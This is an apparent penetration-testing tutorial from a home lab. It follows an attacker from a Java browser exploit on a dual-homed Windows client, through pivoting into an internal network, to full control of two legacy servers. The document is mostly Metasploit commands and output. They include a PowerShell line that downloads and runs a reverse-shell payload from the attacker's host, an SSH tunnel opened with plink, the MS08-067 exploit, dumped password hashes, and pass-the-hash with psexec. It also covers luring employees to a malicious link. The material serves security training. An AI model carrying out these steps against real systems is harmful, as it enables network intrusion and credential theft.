




Game Over: Scenario Based Infrastructure Hacktics
Hello and welcome! Today I will be walking you through a scenario-based infrastructure hack. I am doing this for two reasons. (1) I was setting up some infrastructure tests in my home lab so I might as well share my efforts. (2) Showcasing client-side attacks as an entry point to a corporate network. Me and a couple of my colleagues were recently looking at the "Java Applet JMX Exploit" that was posted on pastebin here and we tested it out on a couple of VM's running IE8-10 (Win 7, Win 8), predictably all browsers poped calc. Today organisational perimeters are generally well protected and publicly available exploits just don't hit the proverbial mark. In my opinion there are two entry points in a corporate environment which pose more risk than other attack vectors. (1) The web application infrastructure; the web is a really complicated animal and with so many technologies floating around mistakes happen (sqli, XSS, CSRF, broken authentication, SOAP logic errors, file upload, command injection,...). (2) Client side attacks; targeted client side attacks are extremely efficient, talented and motivated attackers have had a very high rate of success (think of the carnage the Elderwood gang caused, please take some time to read this).
Today we will see how a compromised client can serve as an entry point into the corporate network. We will be using quite a few tactics to acchieve our goals like metasploit pivoting, powershell, ssh tunneling and pass-the-hash. Take a look at the network setup.
Network Layout:
Internet => 192.168.44.1/24
Corporate Network => 192.168.17.1/24
Clients:
A Attacker - BT5R3: 192.168.44.137
V1 Client - Win7 (Dual-Homed): 192.168.44.1 and 192.168.17.1
V2 Legacy Web Server - XP SP1: 192.168.17.134
V3 Legacy Server - XP Pro SP3: 192.168.17.132
As I designed the lab I know exactly what vulnerabilities are present, today’s tutorial is mostly about how the attacker can propagate on the internal network. You will also notice that I do some things which aren't really necessary but again this is just an opportunity to look at a variety of techniques which are at the disposal of the attacker. Below you can see a network diagram which should help you understand the obstacles we will have to overcome to reach our objectives (please forgive my poor Gimp skills!).

V1 Client Side Foothold
Like I said before sophisticated attackers have had great success at using client side attacks to gain entry to the corporate network. Exploits such as the recent Java JMX bug offer such powerful weapons to the attacker with remote code execution across multiple browsers and operating systems. A regular user may easily be tricked into browsing to a malicious link if he/she thinks the sender is trusted or is properly motivated. Time to launch our attack on the corporate network. First we will serve up the Java JMX exploit on our attackers box and then we will try to entice a poor employee to visit our malicious website.
msf > search JMX Matching Modules ================ Name Disclosure Date Rank Description ---- --------------- ---- ----------- exploit/multi/browser/java_jre17_jmxbean 2013-01-10 excellent Java Applet JMX Remote Code Execution exploit/multi/http/jboss_bshdeployer 2010-04-26 excellent JBoss JMX Console Beanshell Deployer WAR Upload and Deployment exploit/multi/http/jboss_invoke_deploy 2007-02-20 excellent JBoss DeploymentFileRepository WAR Deployment (via JMXInvokerServlet) exploit/multi/http/jboss_maindeployer 2007-02-20 excellent JBoss JMX Console Deployer Upload and Execute exploit/multi/misc/java_rmi_server 2011-10-15 excellent Java RMI Server Insecure Default Configuration Java Code Execution msf exploit(java_jre17_jmxbean) > show options Module options (exploit/multi/browser/java_jre17_jmxbean): Name Current Setting Required Description ---- --------------- -------- ----------- SRVHOST 0.0.0.0 yes The local host to listen on. This must be an address on the local machine or 0.0.0.0 SRVPORT 8080 yes The local port to listen on. SSL false no Negotiate SSL for incoming connections SSLCert no Path to a custom SSL certificate (default is randomly generated) SSLVersion SSL3 no Specify the version of SSL that should be used (accepted: SSL2, SSL3, TLS1) URIPATH /JavaEveryday no The URI to use for this exploit (default is random) Payload options (java/meterpreter/reverse_http): Name Current Setting Required Description ---- --------------- -------- ----------- LHOST 192.168.44.137 yes The local listener hostname LPORT 8080 yes The local listener port Exploit target: Id Name -- ---- 0 Generic (Java Payload) msf exploit(java_jre17_jmxbean) > exploit [*] Exploit running as background job. [*] Started HTTP reverse handler on http://192.168.44.137:8080/ [*] Using URL: http://0.0.0.0:8080/JavaEveryday [*] Local IP: http://192.168.44.137:8080/JavaEveryday [*] Server started.
All we need to do now is trick the unsuspecting user (V1) into browsing to our website.
Obviously this crude attempt won't get us very far but you get the idea right. A motivated attacker can obfuscate the link and craft a mail that looks like it comes from a trusted source or supply a seemingly compelling reason to visit the website. This will be the starting point for our infrastructure scenario.
msf exploit(java_jre17_jmxbean) > exploit [*] Exploit running as background job. [*] Started HTTP reverse handler on http://192.168.44.137:8080/ [*] Using URL: http://0.0.0.0:8080/JavaEveryday [*] Local IP: http://192.168.44.137:8080/JavaEveryday [*] Server started. [*] 192.168.44.1 java_jre17_jmxbean - handling request for /JavaEveryday/ [*] 192.168.44.1:58312 Request received for /favicon.ico... [*] 192.168.44.1:58312 Unknown request to /favicon.ico GET /favicon.ico HTTP/1.1 Accept: */* Accept-Encoding: gzip, deflate User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0) Host: 192.168.44.137:8080 Connection: Keep-Alive Content-Length: 0 ... [*] 192.168.44.1 java_jre17_jmxbean - handling request for /JavaEveryday/eHRimLIo.jar [*] 192.168.44.1 java_jre17_jmxbean - handling request for /JavaEveryday/eHRimLIo.jar [*] 192.168.44.1:58314 Request received for /INITJM... [*] Meterpreter session 1 opened (192.168.44.137:8080 -> 192.168.44.1:58314) at 2013-01-18 20:50:07 +0000 msf exploit(java_jre17_jmxbean) > sessions -l Active sessions =============== Id Type Information Connection -- ---- ----------- ---------- 1 meterpreter java/java b33f @ Trident 192.168.17.133:8080 -> 192.168.17.1:53650 (192.168.17.1) msf exploit(java_jre17_jmxbean) > sessions -i 1 [*] Starting interaction with 1... meterpreter > sysinfo Computer : Trident OS : Windows 7 6.1 (x86) Meterpreter : java/java meterpreter > getuid Server username: b33f meterpreter > shell Process 1 created. Channel 1 created. Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Microsoft Corporation. All rights reserved. C:\Users\b33f\Desktop>ipconfig ipconfig Windows IP Configuration Ethernet adapter VMware Network Adapter VMnet10: Connection-specific DNS Suffix . : Link-local IPv6 Address . . . . . : fe80::15ce:3f81:aaf6:3173%16 IPv4 Address. . . . . . . . . . . : 192.168.17.1 Subnet Mask . . . . . . . . . . . : 255.255.255.0 Default Gateway . . . . . . . . . : Ethernet adapter VMware Network Adapter VMnet8: Connection-specific DNS Suffix . : Link-local IPv6 Address . . . . . : fe80::a504:dea1:5746:e518%17 IPv4 Address. . . . . . . . . . . : 192.168.44.1 Subnet Mask . . . . . . . . . . . : 255.255.255.0 Default Gateway . . . . . . . . . :
As we can see from the meterpreter session our host is dual-homed and will likely give us access to additional non routable hosts on the corporate network. First however we are going to replace our existing java_meterpreter with a proper meterpreter. As some of you will know the java_meterpreter doesn't contain all the available functionality. It also gives me the opportunity to showcase to cool tricks: (1) Inline poweshell code execution and (2) metasploit session upgrading. First we will set up a web server to host our shell and then we will use powershell to download and execute our payload.
root@bt:~/Desktop# /etc/init.d/apache2 start * Starting web server apache2 [ OK ] root@bt:~# netstat -atnp |grep apache2 Active Internet connections (servers and established) Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name tcp 0 0 0.0.0.0:80 0.0.0.0:* LISTEN 1467/apache2 root@bt:~# msfpayload windows/shell/reverse_tcp lport=9988 lhost=192.168.44.137 X > /var/www/funz.exe Created by msfpayload (http://www.metasploit.com). Payload: windows/shell/reverse_tcp Length: 290 Options: {"lport"=>"9988", "lhost"=>"192.168.44.137"} root@bt:~# locate plink.exe /pentest/windows-binaries/tools/plink.exe root@bt:~# cp /pentest/windows-binaries/tools/plink.exe /var/www/ root@bt:~/Desktop# ls -la /var/www/ total 2100 drwxr-xr-x 3 root root 4096 2013-01-18 01:28 . drwxr-xr-x 16 root root 4096 2011-06-08 14:51 .. -rw-r--r-- 1 root root 73802 2013-01-18 01:27 funz.exe -rw-r--r-- 1 root root 177 2011-05-10 17:01 index.html -rwxrw-rw- 1 root root 1667584 2011-06-30 14:52 ncat.exe -rwxrw-rw- 1 root root 381816 2010-04-27 12:04 PsExec.exe drwxr-xr-x 2 root root 4096 2011-05-10 17:01 wstool
In addition to our payload we will also be uploading plink.exe which is a command line version of Putty which will allow us to create shh tunnels in and out of the corporate network should we need them.
# First we will background our meterpreter session (Ctrl+Z) till we drop back into msfconsole and set up a
# listener for our payload.
msf exploit(java_jre17_jmxbean) > use multi/handler
msf exploit(handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf exploit(handler) > set lport 9988
lport => 9988
msf exploit(handler) > set lhost 192.168.44.137
lhost => 192.168.44.137
msf exploit(handler) > exploit -j
[*] Exploit running as background job.
[*] Started reverse handler on 192.168.44.137:9988
[*] Starting the payload handler...
# Ok now lets log back into our original meterpreter sessions and use powershell to download our files
# and execute our payload.
msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1...
meterpreter > shell
Process 1 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\Users\b33f\Desktop>md EvilHacker
md EvilHacker
# This will make the folder hidden and won't even show up if "Show Hidden Files and Folders" option is
# enabled.
C:\Users\b33f\Desktop>attrib +s +h "C:\Users\b33f\Desktop\EvilHacker"
attrib +s +h "C:\Users\b33f\Desktop\EvilHacker"
C:\Users\b33f\Desktop>cd EvilHacker
cd EvilHacker
# This is all in one line
C:\Users\b33f\Desktop\EvilHacker>cmd /c "PowerShell (New-Object System.Net.WebClient).DownloadFile
('http://192.168.44.137/funz.exe','funz.exe');(New-Object System.Net.WebClient).DownloadFile
('http://192.168.44.137/plink.exe','plink.exe');Start-Process 'funz.exe'"
# We immediately get notified of the incoming shell by our handler.
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.44.1
C:\Users\b33f\Desktop\EvilHacker>^Z
Background channel 1? [y/N] y
meterpreter >
Background session 1? [y/N] y
msf exploit(handler) > sessions
Active sessions
===============
Id Type Information Connection
-- ---- ----------- ----------
1 meterpreter java/java b33f @ Trident 192.168.44.137:8080 -> 192.168.44.1:58314 (192.168.44.1)
2 shell windows 192.168.44.137:9988 -> 192.168.44.1:58736 (192.168.44.1)
# We can use the "sessions -u" option to upgrade our shell to a proper meterpreter session.
msf exploit(handler) > sessions -u 2
[*] Started reverse handler on 192.168.44.137:9988
[*] Starting the payload handler...
[*] Command Stager progress - 1.66% done (1699/102108 bytes)
[*] Command Stager progress - 3.33% done (3398/102108 bytes)
[*] Command Stager progress - 4.99% done (5097/102108 bytes)
[*] Command Stager progress - 6.66% done (6796/102108 bytes)
[...Snip...]
[*] Command Stager progress - 96.51% done (98542/102108 bytes)
[*] Command Stager progress - 98.15% done (100216/102108 bytes)
[*] Command Stager progress - 99.78% done (101888/102108 bytes)
[*] Command Stager progress - 100.00% done (102108/102108 bytes)
msf exploit(handler) > sessions
Active sessions
===============
Id Type Information Connection
-- ---- ----------- ----------
1 meterpreter java/java b33f @ Trident 192.168.44.137:8080 -> 192.168.44.1:58314 (192.168.44.1)
2 shell windows 192.168.44.137:9988 -> 192.168.44.1:58736 (192.168.44.1)
3 meterpreter x86/win32 Trident\b33f @ TRIDENT 192.168.44.137:9988 -> 192.168.44.1:58770 (192.168.44.1)
# Lets kill off the sessions we don't need anymore.
msf exploit(handler) > sessions -k 1
[*] Killing session 1
[*] 192.168.44.1 - Meterpreter session 1 closed.
msf exploit(handler) > sessions -k 2
[*] Killing session 2
[*] 192.168.44.1 - Command shell session 2 closed.
As a final step in setting up our forward base of attack we will scan the internal non routable network for live hosts and add a route to that network in metasploit so we can pivot our attacks.
meterpreter > run arp_scanner -r 192.168.17.1/24 [*] ARP Scanning 192.168.17.1/24 [*] IP: 192.168.17.1 MAC 00:50:56:c0:00:01 [*] IP: 192.168.17.134 MAC 00:0c:29:33:39:21 [*] IP: 192.168.17.132 MAC 00:0c:29:71:74:f7 msf exploit(handler) > route add 192.168.17.1 255.255.255.0 3 [*] Route added msf exploit(handler) > route print Active Routing Table ==================== Subnet Netmask Gateway ------ ------- ------- 192.168.17.1 255.255.255.0 Session 3

V2 Legacy Web Server
As I mentioned before the corporate network perimeter is generally well protected. That same diligence is (generally) not applied to the internal network for a variety of reasons. Upgrading OS'es costs allot of money, patching may cause downtime no one is willing to sign off on and generally people consider the internal network to be a safe place. Enter our (unrealistic) XP SP1 legacy HTTP server running a vulnerable version of Kolibri. Since we added a route to the corporate network in msf we can now forward our traffic through V1 to the non routable hosts.
msf exploit(handler) > nmap -sS -T5 -v 192.168.17.134 [*] exec: nmap -sS -T5 -v 192.168.17.134 Starting Nmap 5.51SVN ( http://nmap.org ) at 2013-01-18 21:25 GMT Initiating Ping Scan at 21:25 Scanning 192.168.17.134 [3 ports] Completed Ping Scan at 21:25, 0.01s elapsed (1 total hosts) Initiating Parallel DNS resolution of 1 host. at 21:25 Completed Parallel DNS resolution of 1 host. at 21:25, 0.03s elapsed Initiating SYN Stealth Scan at 21:25 Scanning 192.168.17.134 [1000 ports] Discovered open port 135/tcp on 192.168.17.134 Discovered open port 8080/tcp on 192.168.17.134 Discovered open port 1025/tcp on 192.168.17.134 Discovered open port 139/tcp on 192.168.17.134 Discovered open port 445/tcp on 192.168.17.134 Discovered open port 5000/tcp on 192.168.17.134 Completed SYN Stealth Scan at 21:25, 3.28s elapsed (1000 total ports) Nmap scan report for 192.168.17.134 Host is up (1.0s latency). PORT STATE SERVICE 135/tcp open msrpc 139/tcp open netbios-ssn 445/tcp open microsoft-ds 1025/tcp open NFS-or-IIS 5000/tcp open upnp 8080/tcp open http-proxy MAC Address: 00:0C:29:33:39:21 (VMware) Read data files from: /opt/framework/share/nmap Nmap done: 1 IP address (1 host up) scanned in 3.53 seconds Raw packets sent: 1527 (67.164KB) | Rcvd: 543 (21.744KB)
A bit of service enumeration will reveal that the http-proxy is actually Kolibri HTTP Server. You could tunnel out the port and browse to the site or look at the raw dump when enumerating with amap but I leave that up to the diligent reader to play with. There is already an exploit present for Kolibri in metasploit but it only supports XP SP3. It literally took me five minutes start to finish to launch a debugger on a test system, look for the appropriate addresses on SP1 and modify the exploit in metasploit accordingly.
msf exploit(handler) > use exploit/windows/http/kolibri_http msf exploit(kolibri_http) > set rhost 192.168.17.134 rhost => 192.168.17.134 msf exploit(kolibri_http) > set rport 8080 rport => 8080 # Take care to set a bind payload as the host has no way to route back to our attacker. msf exploit(kolibri_http) > set payload windows/meterpreter/bind_tcp payload => windows/meterpreter/bind_tcp msf exploit(kolibri_http) > show options Module options (exploit/windows/http/kolibri_http): Name Current Setting Required Description ---- --------------- -------- ----------- Proxies no Use a proxy chain RHOST 192.168.17.134 yes The target address RPORT 8080 yes The target port VHOST no HTTP server virtual host Payload options (windows/meterpreter/bind_tcp): Name Current Setting Required Description ---- --------------- -------- ----------- EXITFUNC process yes Exit technique: seh, thread, process, none LPORT 4444 yes The listen port RHOST 192.168.17.134 no The target address Exploit target: Id Name -- ---- 0 Windows XP sp3 msf exploit(kolibri_http) > exploit msf exploit(handler) > sessions Active sessions =============== Id Type Information Connection -- ---- ----------- ---------- 3 meterpreter x86/win32 Trident\b33f @ TRIDENT 192.168.44.137:9988 -> 192.168.44.1:58770 (192.168.44.1) 4 meterpreter x86/win32 B33F-URLVV9CUV5\user1 @ B33F-URLVV9CUV5 192.168.44.137-192.168.44.1:0 -> 192.168.17.134:4444 (192.168.17.134) msf exploit(handler) > sessions -i 4 [*] Starting interaction with 4... meterpreter > getuid Server username: B33F-URLVV9CUV5\user1 meterpreter > sysinfo Computer : B33F-URLVV9CUV5 OS : Windows XP (Build 2600, Service Pack 1). Architecture : x86 System Language : en_US Meterpreter : x86/win32 # Seems like user1 is a low privilege user and won't be able to give us SYSTEM level access to the box meterpreter > hashdump [-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect. meterpreter > getsystem [-] priv_elevate_getsystem: Operation failed: Access is denied.
At this point there are a couple of things we could do. In metasploit we could run "search exploit/windows/local" and run one of the local privilege escalation exploits through our existing session or we could directly exploit MS08_067 since we already have a route to the network. We will be doing something a bit more complicated though to demonstrate the power of ssh tunneling. We will tunnel out port 445 on the remote host all the way back to our attacker and then launch MS08_067 on our local box through the tunnel to V2 and get a shell back. This example is a bit contrived but there are cases where ssh tunneling will save you skin. Since V1 can route connections to our attacker and to V2 we will be using V1 as the bridge for our tunnel.
# First start your ssh server on BackTrack. root@bt:~# /etc/init.d/ssh start Rather than invoking init scripts through /etc/init.d, use the service(8) utility, e.g. service ssh start Since the script you are attempting to invoke has been converted to an Upstart job, you may also use the start(8) utility, e.g. start ssh ssh start/running, process 4985 # Drop back into a shell on V1 and start the tunnel. It will look like you drop out of metasploit back # into a terminal but thats normal since you opening a ssh shell. # # Tunnel Syntax: plink -l username -pw "password" -R attacker_port:victim_ip:victim_port attacker_ip C:\Users\b33f\Desktop\EvilHacker>plink -l root -pw "s3cr3tpa$$word" -R 445:192.168.17.134:445 192.168.44.137 plink -l root -pw "s3cr3tpa$$word" -R 445:192.168.17.134:445 192.168.44.137 Linux bt 3.2.6 #1 SMP Fri Feb 17 10:40:05 EST 2012 i686 GNU/Linux System information as of Sat Jan 19 19:56:44 GMT 2013 System load: 0.01 Processes: 130 Usage of /: 28.6% of 47.82GB Users logged in: 1 Memory usage: 16% IP address for eth0: 192.168.44.137 Swap usage: 0% Graph this data and manage this system at https://landscape.canonical.com/ Last login: Sat Jan 19 19:25:22 2013 from 192.168.44.1 root@bt:~# netstat -antp |grep 445 netstat -antp |grep 445 tcp 0 0 127.0.0.1:445 0.0.0.0:* LISTEN 3486/2 tcp6 0 0 ::1:445 :::* LISTEN 3486/2 # In a new terminal open up msfconsole. First we will identify the opperating system to verify the tunnel # works (could also be done with nmap script scan or enum4linux) and then we will launch a meterpreter # bind payload through the tunnel. msf exploit(ms08_067_netapi) > use scanner/smb/smb_version msf auxiliary(smb_version) > show options Module options (auxiliary/scanner/smb/smb_version): Name Current Setting Required Description ---- --------------- -------- ----------- RHOSTS yes The target address range or CIDR identifier SMBDomain WORKGROUP no The Windows domain to use for authentication SMBPass no The password for the specified username SMBUser no The username to authenticate as THREADS 1 yes The number of concurrent threads msf auxiliary(smb_version) > set rhosts 127.0.0.1 rhosts => 127.0.0.1 msf auxiliary(smb_version) > exploit [*] 127.0.0.1:445 is running Windows XP Service Pack 0 / 1 (language: English) (name:B33F-URLVV9CUV5) (domain:WORKGROUP) [-] 127.0.0.1: ActiveRecord::RecordInvalid Validation failed: Address is reserved [*] Scanned 1 of 1 hosts (100% complete) [*] Auxiliary module execution completed msf > search ms08_067 Matching Modules ================ Name Disclosure Date Rank Description ---- --------------- ---- ----------- exploit/windows/smb/ms08_067_netapi 2008-10-28 00:00:00 UTC great Microsoft Server Service Relative Path Stack Corruption # Take care to set rhost to 127.0.0.1. msf > use exploit/windows/smb/ms08_067_netapi msf exploit(ms08_067_netapi) > show options Module options (exploit/windows/smb/ms08_067_netapi): Name Current Setting Required Description ---- --------------- -------- ----------- RHOST 127.0.0.1 yes The target address RPORT 445 yes Set the SMB service port SMBPIPE BROWSER yes The pipe name to use (BROWSER, SRVSVC) Payload options (windows/meterpreter/bind_tcp): Name Current Setting Required Description ---- --------------- -------- ----------- EXITFUNC thread yes Exit technique: seh, thread, process, none LPORT 4444 yes The listen port RHOST 127.0.0.1 no The target address Exploit target: Id Name -- ---- 2 Windows XP SP0/SP1 Universal msf exploit(ms08_067_netapi) > exploit [*] Started bind handler [*] Attempting to trigger the vulnerability... # We won't get as shell as we are launching the attack on our localhost but lets go back to our tunnel, # close it and background till we are back in msfconsole. root@bt:~# exit exit logout Using username "root". C:\Users\b33f\Desktop>^Z Background channel 1? [y/N] y meterpreter > Background session 4? [y/N] # Set up a handler for the meterpreter bind shell that is waiting for us. msf exploit(handler) > show options Module options (exploit/multi/handler): Name Current Setting Required Description ---- --------------- -------- ----------- Payload options (windows/meterpreter/bind_tcp): Name Current Setting Required Description ---- --------------- -------- ----------- EXITFUNC process yes Exit technique: seh, thread, process, none LPORT 4444 yes The listen port RHOST 192.168.17.134 no The target address Exploit target: Id Name -- ---- 0 Wildcard Target msf exploit(handler) > exploit [*] Started bind handler [*] Starting the payload handler... [*] Sending stage (752128 bytes) to 192.168.17.134 meterpreter > Background session 5? [y/N] # As you can see we now have SYSTEM level access to V2. msf exploit(handler) > sessions Active sessions =============== Id Type Information Connection -- ---- ----------- ---------- 3 meterpreter x86/win32 Trident\b33f @ TRIDENT 192.168.44.137:9988 -> 192.168.44.1:58770 (192.168.44.1) 4 meterpreter x86/win32 B33F-URLVV9CUV5\user1 @ B33F-URLVV9CUV5 192.168.44.137-192.168.44.1:0 -> 192.168.17.134:4444 (192.168.17.134) 5 meterpreter x86/win32 NT AUTHORITY\SYSTEM @ B33F-URLVV9CUV5 192.168.44.137:46585 -> 192.168.17.134:4444 (192.168.17.134) meterpreter > getuid Server username: NT AUTHORITY\SYSTEM meterpreter > hashdump Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: HelpAssistant:1000:17e6ed3ae4ea6164cf94ce448039c13b:1834e6a12f358bd93bfdd45b5395eea1::: Owner:1003:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:69be3606bb00c489551eb44859048a8c::: user1:1004:e52cac67419a9a2238f10713b629b565:5835048ce94ad0564e29a924a03510ef:::

V3 Legacy Server
For our final host we will look at another common issue on internal networks. Often a workstation or server is installed and then a snapshot is taken so the configuration can easily be replicated to other hosts. This is of course a major issue! When we compromise a host and dump the password hashes of the users we can use those to try to authenticated to other hosts on the network. Lets try to use the hashes we recovered from V2 to authenticate against V3.
msf exploit(psexec) > show options Module options (exploit/windows/smb/psexec): Name Current Setting Required Description ---- --------------- -------- ----------- RHOST 192.168.17.132 yes The target address RPORT 445 yes Set the SMB service port SHARE ADMIN$ yes The share to connect to, can be an admin share (ADMIN$, C$,...) or a normal read/write folder share SMBDomain WORKGROUP no The Windows domain to use for authentication SMBPass aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 no The password for the specified username SMBUser Administrator no The username to authenticate as Payload options (windows/meterpreter/bind_tcp): Name Current Setting Required Description ---- --------------- -------- ----------- EXITFUNC process yes Exit technique: seh, thread, process, none LPORT 5566 yes The listen port RHOST 192.168.17.132 no The target address Exploit target: Id Name -- ---- 0 Automatic msf exploit(psexec) > exploit [*] Connecting to the server... [*] Started bind handler [*] Authenticating to 192.168.17.132:445|WORKGROUP as user 'Administrator'... [*] Uploading payload... [*] Created \OkddXwLq.exe... [*] Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.17.132[\svcctl] ... [*] Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.17.132[\svcctl] ... [*] Obtaining a service manager handle... [*] Creating a new service (HRyeauAf - "MRhLxJcCrdBvQlOSnQSjdnYROxRe")... [*] Closing service handle... [*] Opening service... [*] Starting the service... [*] Removing the service... [*] Closing service handle... [*] Sending stage (752128 bytes) [*] Deleting \OkddXwLq.exe... [*] Meterpreter session 6 opened (192.168.44.137-192.168.44.1:0 -> 192.168.17.132:5566) at 2013-01-19 21:22:04 +0000 meterpreter > getuid Server username: NT AUTHORITY\SYSTEM meterpreter > Background session 6? [y/N] msf exploit(psexec) > sessions Active sessions =============== Id Type Information Connection -- ---- ----------- ---------- 3 meterpreter x86/win32 Trident\b33f @ TRIDENT 192.168.44.137:9988 -> 192.168.44.1:58770 (192.168.44.1) 4 meterpreter x86/win32 B33F-URLVV9CUV5\user1 @ B33F-URLVV9CUV5 192.168.44.137-192.168.44.1:0 -> 192.168.17.134:4444 (192.168.17.134) 5 meterpreter x86/win32 NT AUTHORITY\SYSTEM @ B33F-URLVV9CUV5 192.168.44.137:46585 -> 192.168.17.134:4444 (192.168.17.134) 6 meterpreter x86/win32 NT AUTHORITY\SYSTEM @ B33F-E95CE571A1 192.168.44.137-192.168.44.1:0 -> 192.168.17.132:5566 (192.168.17.132) msf exploit(psexec) > ...Game Over...
